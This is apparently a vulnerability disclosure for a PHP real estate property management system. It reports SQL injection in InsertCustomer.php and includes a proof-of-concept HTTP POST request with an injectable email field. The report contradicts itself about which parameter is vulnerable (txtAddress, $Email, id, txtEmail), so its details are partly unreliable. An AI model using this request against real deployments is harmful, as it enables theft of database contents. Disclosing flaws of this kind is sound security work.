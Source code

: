 # Real Estate Property Management System has sql injection vulnerability  via txtAddress  parameter.

## supplier 
https://code-projects.org/real-estate-property-management-system-php-source-code/
## Vulnerability parameter
InsertCustomer.php

## describe

An unrestricted SQL injection attack exists in an Real Estate Property Management System. The parameters that can be controlled are as follows: $Email parameter . This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of   $Email parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/78f21a39-7fd3-41a0-ac84-384cd1cac0cd)

![Image](https://github.com/user-attachments/assets/7858b00e-9a65-436c-9b54-c6d16a762d80)

## POC

```
POST /InsertCustomer.php HTTP/1.1
Host: property
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Origin: http://property
Connection: close
Referer: http://property/ajax_city.php?
Upgrade-Insecure-Requests: 1
Priority: u=0, i

txtEmail=1*
```

**Result**

get databases 

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
